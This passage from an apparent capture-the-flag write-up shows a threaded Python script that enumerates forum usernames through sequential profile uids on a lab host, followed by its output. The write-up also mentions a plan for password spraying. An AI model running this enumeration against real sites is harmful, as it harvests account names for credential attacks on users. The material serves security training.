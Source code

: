 In here, the `uid` is incremented by 1, which means an attacker can easily enumerate all users.

Hmm... Let's write a Python script to enumerate all usernames and password spraying.

**Enumerate all usernames:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Enumerater:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, uid):
        requestResult = requests.get(f'{self.__url}{uid}')
        soup = BeautifulSoup(requestResult.text, 'html.parser')

        if 'The member you specified is either invalid or doesn\'t exist.' in soup.get_text():
            exit()
        else:
            username = soup.title.string[23:]
            print(f'[+] Found valid username: {username}')

            # Write valid username to disk
            with open('username.txt', 'a') as file:
                file.write(f'{username}\n')

def main():
    url = 'http://exit-denied.thm/member.php?action=profile&uid='
    enumerater = Enumerater(url)

    for uid in range(1, 100):
        thread = Thread(target=enumerater.sendRequest, args=(uid,))
        thread.start()

        # You can adjust how fast of each thread. 0.02 is recommended.
        sleep(0.02)

if __name__ == "__main__":
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|15:48:17(HKT)]
└>  python3 enum_username.py 
[+] Found valid username: bigpaul
[+] Found valid username: Wannabe_Hacker
[+] Found valid username: SarahHunt
[+] Found valid username: bubbaBIGFOOT
[+] Found valid username: jscale
[+] Found valid username: Sosaxvector
[+] Found valid username: BlackCat
[+] Found valid username: slithersloth
[+] Found valid username: Jackwon
[+] Found valid username: PalacerKing
[+] Found valid username: ArnoldBagger
[+] Found valid username: DotHaxer
[+] Found valid username: DrBert
[+] Found valid username: Tonynull
[+] Found valid username: StaceyLacer
[+] Found valid username: SnakeSolid
```